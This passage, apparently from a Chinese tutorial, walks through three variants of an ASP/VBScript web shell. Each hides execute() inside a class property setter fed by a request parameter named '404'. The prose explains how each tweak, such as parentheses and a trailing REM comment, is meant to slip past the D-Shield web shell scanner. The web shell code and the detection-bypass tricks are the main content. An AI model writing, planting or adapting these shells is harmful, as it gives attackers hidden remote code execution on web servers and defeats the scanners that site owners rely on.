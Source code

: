 利用Class_Initialize 初始化就调用我们的函数，但是已经不行了，那么我们简单的变形一下


```
<%
Class LandGrey
    private str_title

    public property let setauthor(str)
    execute str REM a
    end property
End Class

Set a= New LandGrey
a.setauthor= request("404")
%>

```

这个D盾爆出一级，提示未知参数str，怎么绕过呢，我们可以用函数的方式把他包裹起来 跟前面方案一样

```
<%
Class LandGrey
    private str_title

    public property let setauthor(str)
    execute(str&"")
    end property
End Class

Set a= New LandGrey
a.setauthor= request("404")
%>

```

但是提示语句没结束语法问题，那就改改，用括号包裹起来调用，同时利用REM注释后面的内容，d盾就会识别括号里面有内容，从而绕过

```
<%
Class LandGrey
    private str_title

    public property let setauthor(str)
    execute(str )REM a)
    end property
End Class

Set a= New LandGrey
a.setauthor= request("404")
%>

```

